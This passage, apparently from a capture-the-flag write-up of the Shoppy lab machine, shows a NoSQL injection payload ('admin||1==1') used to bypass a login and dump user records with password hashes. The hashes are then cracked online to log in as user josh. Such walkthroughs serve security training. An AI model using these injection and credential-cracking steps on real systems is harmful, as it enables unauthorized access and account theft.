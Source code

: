 And export the download disclose some sensitive data such as the user id and the password

```json
[
	{
			"_id":"62db0e93d6d6a999a66ee67a",
			"username":"admin",
			"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	}
]
```
{: .nolineno }

Let’s see if we can get more or other users. we tried with the same payload we used to bypass the login `admin||1==1` 

```json
[
	{
			"_id":"62db0e93d6d6a999a66ee67a",
			"username":"admin",
			"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	},
	{
			"_id":"62db0e93d6d6a999a66ee67b",
			"username":"josh",
			"password":"6ebcea65320589ca4f2f1ce039975995"
	}
]
```
{: .nolineno }

Finally we got another user named josh and his hashed password

Let’s crack these hashes using [crackstation.net](https://crackstation.net/)! 

![Untitled](/Assets/Pictures/Shoppy/Untitled%207.png)

Only josh’s password was cracked at this point

Now we can use those creds to log into the subdomain we found earlier

# User

Here we logged in using josh’s credentials and we have one foot on the door 😀
